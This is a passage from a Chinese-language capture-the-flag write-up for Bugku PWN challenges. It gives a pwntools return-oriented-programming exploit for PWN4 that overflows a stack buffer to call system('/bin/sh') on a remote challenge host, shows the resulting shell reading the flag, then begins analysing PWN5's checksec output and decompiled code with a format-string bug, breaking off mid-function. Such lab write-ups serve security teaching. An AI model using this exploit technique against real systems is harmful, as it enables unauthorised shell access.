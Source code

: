 然后直接开写exp吧

```python
from pwn import *
p = remote('114.116.54.89', 10004)
#p = process('./pwn4')
pop_rdi = 0x00000000004007d3 
bin_sh = 0x000000000060111f
system = 0x000000000040075A
payload = 'A' * (0x10+8) + p64(pop_rdi) + p64(bin_sh) + p64(system)  
p.recvuntil('Come on,try to pwn me')
p.sendline(payload)
p.interactive()
```

```shell
$ ls
bin
dev
flag
lib
lib32
lib64
stack2
$ cat flag
flag{264bc50112318cd6e1a67b0724d6d3af}$  
```

## PWN 5

先检查一下文件

```c
[*] '/mnt/hgfs/share/Bugku/PWN/pwn5/human'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

直接拿IDA Pro打开反汇编一下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-20h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  memset(&s, 0, 0x20uLL);
  puts(&::s);
  read(0, &s, 8uLL);
  printf(&s, &s);
  puts(&s);
  puts(&s);
  puts(&s);
  puts(&byte_400978);
  sleep(1u);
  puts(asc_400998);
  read(0, &s, 0x40uLL);
  if ( !strstr(&s, &needle) || !strstr(&s, &byte_4009BA) )
  {
    puts(&byte_4009C8);
    exit(0);
  }
  puts(&byte_4009F8);
```